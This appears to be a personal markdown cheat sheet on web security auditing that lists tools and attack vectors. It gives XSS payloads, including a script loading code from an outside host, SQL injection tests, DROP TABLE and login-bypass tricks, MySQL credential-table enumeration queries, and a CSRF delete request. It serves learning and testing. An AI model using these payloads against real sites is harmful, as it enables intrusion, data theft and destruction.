 # Notes About Web Security
## Useful Auditing Tools:
`burpsuite` to capture and modify packets (purchase pro version if you like auto scannning :p)

`nmap ncat` to scan and test ports

`whois` and `theharvester` to collect OSINT data

`python` to create scripts

`sqlmap` to detect and exploit SQL Injection

and of course `F12(Developer tools)` in Browser(very useful!)
### #don't be a script kiddy!!


## Common Vulnerbilities

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### Basic
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
### SQL Injection

#### Attacking Vectors
##### Check if the vulnerability exists
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### Comment the rest of the query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
use `'` and `--` to close brackets and comment the queries
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!
### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
Try injecting elements in siteB to siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

### SSRF (Server-Side-Request-Forgery)
Like CSRF, but inject element to perform request to an intranet server



